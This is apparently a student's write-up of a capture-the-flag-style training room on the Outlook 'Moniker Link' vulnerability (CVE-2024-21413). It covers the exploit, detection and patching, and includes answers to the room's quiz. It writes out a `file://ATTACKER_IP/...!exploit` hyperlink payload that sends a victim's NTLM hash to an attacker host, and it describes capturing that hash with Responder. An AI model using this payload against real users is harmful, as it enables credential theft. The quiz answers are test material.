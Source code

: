 # Moniker Link (CVE-2024-21413)

## [Task 1] Introduction

This room is used to serve as an introduction to exploitation; what better way to get introduced to exploiting things than by exploiting a vulnerability yourself?

On February 13, 2024, Microsoft announced a remote code execution (RCE) and credential leak vulnerability in Outlook and assigned it as CVE-2024-21413, colloquially known as "Moniker Link." This is courtesy of Haifei Li of CHeck Point Research.

This bypasses Outlook's security mechanisms since it doesn't know how to handle Moniker Links very well. Attackers can abuse this by sending malicious Moniker Links to a victim, resulting in Outlook sending off the user's NTLM credentials to the attacker once the hyperlink is clicked.

According to Microsoft, here's what we know about the vulnerability:
- It was published on 2/13/2024.
- It allows for RCE and credential leaking.
- It is a Critical vulnerability.
- It has an attack complexity of Low, meaning that it's not too difficult to perform.
- It has been scored a 9.8 on the Common Vulnerability Scoring System, indicating it is a critical vulnerability.
- It affects Microsoft Office LTSC 2021 (19.0.0 and onward), Microsoft 365 Apps for Enterprise and Office 2019 (16.0.1 and onward), and Microsoft Office 2016 (16.0.0 to 16.0.5435.1001).

You can follow along by launching the attached VM and the AttackBox.

**[Task 1, Question 1] What "Severity" rating has the CVE been assigned?** - Critical

## [Task 2] Moniker Link (CVE-2024-21413)

Outlook renders emails as HTML, and Outlook can parse hyperlinks as HTTP or HTTPS. It can also open URLs specifying applications known as Moniker Links (e.g. `skype:` and `file://`). Outlook prompts for a security warning whenever the application is triggered to open. This is a result of Outlook's "Protected View," which opens emails containing attachments, hyperlinks, and similar content in read-only mode. This blocks macros, particularly those from outside an organization.

We can use the `file://` Moniker Link in the hyperlink to tell Outlook to try and access a file, such as a file on a network share (e.g. `<a href="file://(ATTACKER_IP)/test>Click Me</a>`). This uses the Server Message Block (SMB) protocol, which uses local credentials for authentication. However, Outlook typically blocks this.

We can modify the hyperlink with `!` to get around this, e.g. `<a href="file://ATTACKER_IP/test!exploit>Click Me</a>`. We can provide a Moniker Link for the attack. The share does not need to exist on the remote device; an authentication attempt happens regardless, which results in the victim's Windows netNTLMv2 hash being sent off to the attacker.

RCE is possible because Moniker Links use the Component Object Model (COM) on Windows, but this aspect is outside the scope of the room. There's no publicly-released proof of concept (as of the time of the room's writing) for achieving RCE in this vulnerability.

**[Task 2, Question 1] What Moniker Link type do we use in the hyperlink?** - `file://`

**[Task 2, Question 2] WHat is the special character used to bypass Outlook's "Protected View"?** - `!`

## [Task 3] Exploitation

In this task we will email the Moniker Link to the victim. The victim will attempt to load a file from our machine, and thus their hash will get captured. A PoC is available on GitHub for this.

This proof-of-concept
- Takes an attacker and victim email. You'd need to use your own SMTP server, but this is already set up in the room.
- You need the password to authenticate. The password for `attacker@monikerlink.thm` is `attacker`.
- You need the email content (`html_content`), which contains the Moniker Link as an HTML hyperlink.
- Then you fill in the subject/from/to fields in the email.
- Then we send the email to the mail server.

We can use Responder to create an SMB listener on the attacking machine. From the AttackBox, you would use the interface `-I ens5` (this will differ if you're on a separate machine). You can also do this with Impacket.

We start by opening the CVE-2024-21413 machine. THen we open Outlook by clicking the shortcut on the Desktop, and then click "I don't want to sign in or create an account" on the popup. We dismiss the second popup by clicking the "X" at the top-right of the popup, and then we see the Outlook interface. The victim mailbox has already been setup.

Once Outlook is set up, we can copy and paste the contents of the PoC into the AttackBox. We create a file with `nano exploit.py`, and then paste the code in. You may need to use the slide-out tray in the split-screen view, in the middle of the screen. See GIFs in the room for more details.

We need to modify the POC:
- Modify line #12 in the POC to reflect the IP address of the AttackBox
- Replace the MAILSERVER placeholder in line #31 with the machine's IP.

Then run the exploit. Enter `attacker` as the email password, and then the script will attempt to send the exploit email. If authentication fails, you may need to adjust values in `exploit.py`. In the vulnerable machine, you should have gotten an email with the poisoned link. Clicking the hyperlink in the email should send the netNTLMv2 hash over to Responder in the AttackBox.

**[Task 3, Question 1] What is the name of the application that we use on the AttackBox to capture the user's hash?** - Responder

**[Task 3, Question 2] What type of hash is captured once the hyperlink in the email has been clicked?** - netNTLMv2

## [Task 4] Detection

To detect this, you should be focusing on emails that contain the `file:\\` Moniker Link. This can be done with a Yara rule, and you should be able to see the SMB request from the victim to the attacker in Wireshark packet captures. You should even be able to see the truncated netNTLMv2 hash!

## [Task 5] Remediation

Microsoft has patches to resolve this vulnerability back in the February 2024 Patch Tuesday release. You should update Office products via Windows Update or the Microsoft Update Catalog online. Additionally, users should be reminded of the following good security practices regarding email:
- Don't click random links from unsolicited emails
- Preview links before clicking them
- Forward suspicious emails to the organization's cybersecurity department

You cannot reconfigure Outlook to prevent this attack, and prohibiting the use of the SMB protocol in its entirety can cause damage, since that's how you access network shares in general. Depending on the organization, however, you might be able to work something out in the firewall.

## [Task 6] Conclusion

This is an interesting little vulnerability to whet one's appetite for the upcoming exploitation section. This is a vulnerability that can be used to do some serious damage, and the fact that it is easy to exploit and can be exploited against a wide suite of products just makes it that more interesting as a case study. Not only that, but it serves as a reminder to keep products up-to-date -- in fact, that's really about all you can do here, since Outlook can't be reconfigured to prevent this attack without just updating it.

(Note: The Metasploit rooms are also a part of the Junior Pentester Path, so notes for them will be continued there. Will link to them later.)
